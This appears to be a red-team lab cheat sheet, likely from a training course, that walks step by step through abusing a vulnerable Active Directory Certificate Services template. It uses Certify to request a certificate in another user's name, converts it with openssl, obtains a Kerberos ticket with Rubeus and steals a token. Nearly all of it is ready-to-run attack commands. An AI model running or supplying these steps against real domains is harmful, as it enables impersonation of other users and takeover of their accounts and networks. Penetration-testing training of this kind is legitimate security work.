 # Finding vulnerable certificates

```bash
execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe find /vulnerable
```

---

# Request a certificate for another user

```bash
execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.dev.cyberbotic.io\sub-ca /template:CustomUser /altname:nlamb
```

---

# Copy the certificate to convert it to pfx extension

```bash
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
# We need to add a password, anything is OK but we need to remember, in this case pass123
```

---

# Get base64 version of certificate

```bash
cat cert.pfx | base64 -w 0
```

---

# Use the base64 value to ask for a tgt for that user

```bash
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:nlamb /certificate:MIIM7w[...]ECAggA /password:pass123 /nowrap
```

---

# Create a session and steal token

```bash
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:pass123 /ticket:doIFwj[...]MuSU8=
steal_token 1234
```
